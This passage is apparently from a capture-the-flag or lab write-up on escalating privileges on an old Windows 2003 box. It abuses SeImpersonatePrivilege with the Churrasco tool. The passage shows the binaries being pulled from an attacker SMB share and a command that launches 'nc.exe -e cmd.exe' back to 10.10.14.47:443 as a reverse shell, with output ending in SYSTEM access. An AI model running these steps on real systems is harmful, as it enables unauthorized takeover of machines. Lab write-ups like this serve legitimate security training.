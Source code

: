 ```

```

`SEImpersonalPrivilege` is one I know to look out for. For modern boxes, that means a potato exploit (juicy, lonely, rotten). But for 2003, it’s better to start with churrasco.

### churrasco

I grabbed the binary from the [Churrasco GitHub](https://github.com/Re4son/Churrasco/). I ran `smbserver.py share .` on my local machine to open an SMB share named share with both `nc.exe` and `churrasco.exe` in that directory:

```

C:\wmpub>copy \\10.10.14.47\share\nc.exe .
        1 file(s) copied.

C:\wmpub>copy \\10.10.14.47\share\churrasco.exe c.exe
        1 file(s) copied.

C:\wmpub>dir
 Volume in drive C has no label.
 Volume Serial Number is 246C-D7FE

 Directory of C:\wmpub

05/28/2020  02:50 PM    <DIR>          .
05/28/2020  02:50 PM    <DIR>          ..
05/28/2020  02:38 PM            31,232 c.exe
05/28/2020  04:35 AM            38,616 nc.exe
05/28/2020  02:46 PM                 7 test.txt
04/12/2017  05:05 PM    <DIR>          wmiislog
               3 File(s)         69,855 bytes
               3 Dir(s)  18,092,220,416 bytes free

```

Now run it, having it run `nc` to connect back to me:

```

C:\wmpub>.\c.exe -d "C:\wmpub\nc.exe -e cmd.exe 10.10.14.47 443"
/churrasco/-->Current User: NETWORK SERVICE 
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 684 
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 688 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 692 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 700 
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0x72c
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found NETWORK SERVICE Token
/churrasco/-->Found NETWORK SERVICE Token
/churrasco/-->Found LOCAL SERVICE Token
/churrasco/-->Found SYSTEM token 0x724
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!

```
